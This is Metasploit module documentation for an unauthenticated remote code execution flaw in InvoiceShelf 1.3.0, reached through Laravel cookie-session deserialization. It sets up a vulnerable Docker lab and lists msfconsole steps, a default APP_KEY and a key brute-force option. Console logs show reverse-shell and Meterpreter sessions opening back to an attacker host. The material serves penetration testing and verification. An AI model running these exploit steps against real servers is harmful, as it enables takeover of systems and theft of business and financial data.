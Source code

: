 ## Vulnerable Application
InvoiceShelf is an open-source web & mobile app that helps you track expenses, payments, create professional
invoices & estimates and is based on the PHP framework Laravel.
InvoiceShelf has a Remote Code Execution vulnerability that allows remote unauthenticated attackers to conduct
PHP deserialization attacks. This is possible when the `SESSION_DRIVER=cookie` option is set on the default
InvoiceShelf .env file meaning that any session will be stored as a ciphered value inside a cookie.
These sessions are made from a specially crafted JSON containing serialized data which is then ciphered using
Laravel's encrypt() function.
An attacker in possession of the `APP_KEY` would therefore be able to retrieve the cookie, uncipher it and modify
the serialized data in order to get arbitrary deserialization on the affected server, allowing them to achieve
remote command execution. InvoiceShelf version `1.3.0` and lower is vulnerable.
As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
potentially resulting in complete system compromise, data exfiltration, or unauthorized access
to sensitive information.

The following release was tested.
* InvoiceShelf `1.3.0` on Docker

## Installation steps to install InvoiceShelf on Docker
* Follow the instructions [here](https://docs.invoiceshelf.com/installation.html) for docker or manual install.
* Please ensure that `SESSION_DRIVER=cookie` is set to cookie.
* cp `.env.example` to `.env` and note down the `APP_KEY` setting.
* To make life easy, use the docker-compose.yml below to install a vulnerable InvoiceShell on Docker.
```
 #-------------------------------------------
 # InvoiceShelf MySQL docker-compose variant
 # Repo : https://github.com/InvoiceShelf/docker
 #-------------------------------------------

services:
  invoiceshelf_db:
    container_name: invoiceshelf_db
    image: mariadb:10
    environment:
      - MYSQL_DATABASE=invoiceshelf
      - MYSQL_USER=invoiceshelf
      - MYSQL_PASSWORD=Passw0rd
      - MARIADB_ALLOW_EMPTY_ROOT_PASSWORD=true
    expose:
      - 3306
    volumes:
      - mysql:/var/lib/mysql
    networks:
      - invoiceshelf
    restart: unless-stopped
    healthcheck:
      test: ["CMD", "mariadb-admin" ,"ping", "-h", "localhost"]
      timeout: 20s
      retries: 10

  invoiceshelf:
    image: invoiceshelf/invoiceshelf:1.3.0
    container_name: invoiceshelf
    ports:
      - 90:80
    volumes:
      - ./invoiceshelf_mysql/data:/data
      - ./invoiceshelf_mysql/conf:/conf
    networks:
      - invoiceshelf
    environment:
      # PHP timezone e.g. PHP_TZ=America/New_York
      - PHP_TZ=UTC
      - TIMEZONE=UTC
      - APP_NAME=Laravel
      - APP_ENV=local
      - APP_DEBUG=true
      - APP_URL=http://localhost:90
      - DB_CONNECTION=mysql
      - DB_HOST=invoiceshelf_db
      - DB_PORT=3306
      - DB_DATABASE=invoiceshelf
      - DB_USERNAME=invoiceshelf
      - DB_PASSWORD=Passw0rd
      - DB_PASSWORD_FILE=
      - CACHE_STORE=file
      - SESSION_DRIVER=cookie
      - SESSION_LIFETIME=1440
      - SESSION_ENCRYPT=false
      - SESSION_PATH=/
      - SESSION_DOMAIN=localhost
      - SANCTUM_STATEFUL_DOMAINS=localhost:90
      - STARTUP_DELAY=
      #- MAIL_DRIVER=smtp
      #- MAIL_HOST=smtp.mailtrap.io
      #- MAIL_PORT=2525
      #- MAIL_USERNAME=null
      #- MAIL_PASSWORD=null
      #- MAIL_PASSWORD_FILE=<filename>
      #- MAIL_ENCRYPTION=null
    restart: unless-stopped
    depends_on:
      - invoiceshelf_db

networks:
  invoiceshelf:

volumes:
  mysql:
```
* Execute `docker-compose up -d`
* You can access the InvoiceShelf application at http://localhost:90

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/invoiceshelf_unauth_rce_cve_2024_55556`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=PHP Command, 1=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
### APP_KEY
This option is required if the BRUTE_FORCE option is not used.
It is the Laravel APP_KEY with a default key: `base64:kgk/4DW1vEVy7aEvet5FPp5un6PIGe/so8H0mvoUtW0=`.

### BRUTEFORCE
This option is optional and is a text file with a list of APP_KEYs, one per line for a bruteforce attack.

## Scenarios
### InvoiceShelf 1.3.0 on Docker -  PHP Command target
Attack scenario: use the default Laravel APP_KEY preset in the option APP_KEY.
```msf
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set rhosts 192.168.201.21
rhosts => 192.168.201.21
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.21:90 can be exploited.
[+] The target appears to be vulnerable. InvoiceShelf 1.3.0
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the cookie.
[*] Grabbing the cookies.
[+] APP_KEY is valid: base64:kgk/4DW1vEVy7aEvet5FPp5un6PIGe/so8H0mvoUtW0=
[+] Unciphered value: f80a79e26a4e80e6829ca82e9323f17dcbf8226b|{"data":"a:3:{s:6:\"_token\";s:40:\"4Fgr0aT0N85gxRmu4PoVqPzHU7XOH23NCrivJO9x\";s:9:\"_previous\";a:1:{s:3:\"url\";s:40:\"http:\/\/192.168.201.21:90\/login?%2Flogin=\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}","expires":1741454360}
[*] Generate an encrypted serialized cookie payload with our cracked APP_KEY.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.21
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.21:54194) at 2025-03-07 17:19:21 +0000

meterpreter > getuid
Server username: www-data
meterpreter > pwd
/var/www/html/InvoiceShelf/public
meterpreter > sysinfo
Computer    : 72fe563832ca
OS          : Linux 72fe563832ca 6.12.5-linuxkit #1 SMP PREEMPT_DYNAMIC Tue Jan 21 10:25:35 UTC 2025 x86_64
Meterpreter : php/linux
meterpreter >
```
###  InvoiceShelf 1.3.0 on Docker - Unix/Linux Command target
Attack scenario: use the BRUTEFORCE option with a list of APP_KEYS in a text file.
```msf
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set target 1
target => 1
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > set BRUTEFORCE /root/laravel-crypto-killer/wordlists/crater.txt
BRUTEFORCE => /root/laravel-crypto-killer/wordlists/crater.txt
msf6 exploit(linux/http/invoiceshelf_unauth_rce_cve_2024_55556) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.21:90 can be exploited.
[+] The target appears to be vulnerable. InvoiceShelf 1.3.0
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the cookie.
[*] Grabbing the cookies.
[*] Starting bruteforce decryption with APP_KEYS listed in /root/laravel-crypto-killer/wordlists/crater.txt.
[+] APP_KEY is valid: base64:kgk/4DW1vEVy7aEvet5FPp5un6PIGe/so8H0mvoUtW0=
[+] Unciphered value: ce0776f8682b66a8407e6a3d62622642ec8fc685|{"data":"a:3:{s:6:\"_token\";s:40:\"Q2zYE5unWqTpdLwFwqgKxBVubiDI95ceLObsbXXV\";s:9:\"_previous\";a:1:{s:3:\"url\";s:40:\"http:\/\/192.168.201.21:90\/login?%2Flogin=\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}","expires":1741454687}
[*] Generate an encrypted serialized cookie payload with our cracked APP_KEY.
[*] Executing Unix/Linux Command for cmd/unix/reverse_bash
[*] Command shell session 3 opened (192.168.201.8:4444 -> 192.168.201.21:54229) at 2025-03-07 17:24:53 +0000

id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1000(invoiceshelf)
uname -a
Linux 72fe563832ca 6.12.5-linuxkit #1 SMP PREEMPT_DYNAMIC Tue Jan 21 10:25:35 UTC 2025 x86_64 GNU/Linux
pwd
/var/www/html/InvoiceShelf/public
```

## Limitations
No limitations.
